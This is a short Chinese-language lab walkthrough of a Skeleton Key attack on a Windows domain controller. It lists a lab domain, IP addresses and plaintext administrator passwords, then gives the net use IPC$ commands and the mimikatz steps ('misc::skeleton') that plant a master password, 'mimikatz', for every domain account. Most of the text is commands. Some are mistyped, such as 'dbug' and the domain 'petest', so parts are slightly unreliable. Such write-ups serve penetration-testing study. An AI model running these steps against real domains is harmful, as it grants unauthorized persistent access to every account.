 ##### 环境

远程系统：

* 域名：pentest.com

域控：

* 主机名：DC
* IP地址：192.168.100.205
* 用户名：administrator
* 密码：a123456#

域成员服务器：

* 主机名：computer1
* IP地址：192.168.100.200
* 用户名：dm
* 密码：a123456@

##### 初始权限确认

尝试使用当前登陆用户列出域控的C盘共享目录中的文件：

```powershell
dir \\192.168.100.205\c$
```

此时如果是一个普通域用户，则会提升权限不足。

使用账密连接：

```powershell
net use \\192.168.100.205\ipc$ "a123456#" /user:petest\administrator
dir \\192.168.100.205\c$
```

此时应该可以看到目录情况。

##### 使用mimikatz注入Skeleton Key

在域控中：

```powershell
privilege::dbug
misc::skeleton
```

如果注入成功，会给域内所有的账号都添加一个Skeleton Key，其默认密码为`mimikatz`。

##### 使用Skeleton Key访问域控

先将原有的`ipc$`连接删除：

```powershell
net use \\192.168.100.205\ipc$ /del /y
```

然后使用万能密码与域控建立`ipc$`连接：

```powershell
net use \\dc\ipc$ "mimikatz" /user:pentest\administrator
dir \\dc\c$
```
